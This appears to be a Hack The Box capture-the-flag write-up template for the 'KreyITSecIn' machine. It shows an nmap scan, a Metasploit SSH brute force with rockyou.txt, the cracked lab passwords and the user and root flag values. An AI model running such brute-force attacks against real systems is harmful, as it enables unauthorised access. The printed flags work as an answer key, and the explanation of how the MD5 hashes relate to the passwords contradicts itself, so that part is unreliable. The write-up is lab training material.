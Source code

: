 ![banner](https://github.com/Netzknoten/HackTheBoxDevelopment/assets/114874531/6b81aad7-a78b-4ad9-bc53-2676ca48431f)




![HTB-Box_KreyITSecIN](https://github.com/Netzknoten/HackTheBoxDevelopment/assets/114874531/5fe99c25-9a59-4f32-ad82-ac1094f7ec3b) 
# KreyITSecIn



​		16<sup>th</sup> September 2023

​		Machine Author(s): Manuel Krey

​		

 



### Description:

KreyITSecIn is an easy-level machine on Hack The Box. The objective is to obtain the `user.txt` and `root.txt` flags. The initial access to the machine was achieved by performing a specific set of steps.


### Difficulty:

`easy`

### Flags:

User: `25f9e794323b453885f5181f1b624d0b`
123456789

Root: `b7e7309a9c023eeff2e055c5f8cf0d4f`
FlaggingKreyITSecIN

## Enumeration

Initial enumeration was performed to gather information about the KreyITSecIn machine. This included identifying open ports, services, and potential vulnerabilities.

### Port Scanning

We conducted a port scan using the following command:

```shell
nmap -p- -A -T4 -sV <machine_ip>
```

From the scan, we identified the following:

- Port 22 (SSH) is open.

### OSINT for Username

During the enumeration process, we also conducted open-source intelligence (OSINT) research to gather additional information. We discovered that the username "bob" or the name "Bob Hackwell" was publicly available on a website entry.

This information was used to assist in the enumeration process and played a crucial role in identifying the username used to gain access to the machine.

## Foothold

To gain an initial foothold on the KreyITSecIn machine, we used the discovered username "bob" and initiated an SSH brute-force attack using Metasploit. We used the rockyou.txt password list located in `/usr/share/wordlists/` for the attack.

```shell
use auxiliary/scanner/ssh/ssh_login
set RHOSTS <machine_ip>
set USER_FILE myuserlist.txt
set PASS_FILE /usr/share/wordlists/rockyou.txt
set VERBOSE true
exploit
```

After several attempts, we successfully guessed the password for the user "bob" as "123456."

```shell
ssh bob@<machine_ip>
Password: 123456
```

## User Privilege Escalation

Once logged in as "bob," we navigated to the `/home/bob/` directory and found the "user.txt" flag. The flag was a hash value representing the user flag.

```shell
cat user.txt
```

### User Flag (MD5 Hash)

The user flag is an MD5 hash of the root password. The MD5 hash for the user flag is: `25f9e794323b453885f5181f1b624d0b`

## Root Privilege Escalation

To escalate privileges to root, we used the MD5 hash of the root password, which is "25f9e794323b453885f5181f1b624d0b," and attempted to switch to the root user.

```shell
su -
Password: 123456789
```

Once we provided the correct root password hash, we successfully logged in as the root user.

### Root Flag (MD5 Hash)

The root flag is an MD5 hash of the root password. The MD5 hash for the root flag is: `b7e7309a9c023eeff2e055c5f8cf0d4f`

## Conclusion

KreyITSecIn was an easy-level machine on Hack The Box that involved using Metasploit for an SSH brute-force attack with the rockyou.txt password list to access the machine. Once inside, we obtained both the user and root flags, which were represented as MD5 hashes of the respective passwords.

---

Please replace `<machine_ip>`, `<user_flag_md5_hash>`, and `<root_flag_md5_hash>` with the actual IP address of the KreyITSecIn machine and the corresponding MD5 hash values for the flags. Adjust the rest of the write-up according to your actual steps and commands. Write in your new Wordlist: myuserlist.txt, the username "bob".

[Machine_Name.md](https://github.com/Netzknoten/HackTheBoxDevelopment/files/12641548/Machine_Name.md)

Skeleton writeups for community challenge and machine submissions 💚
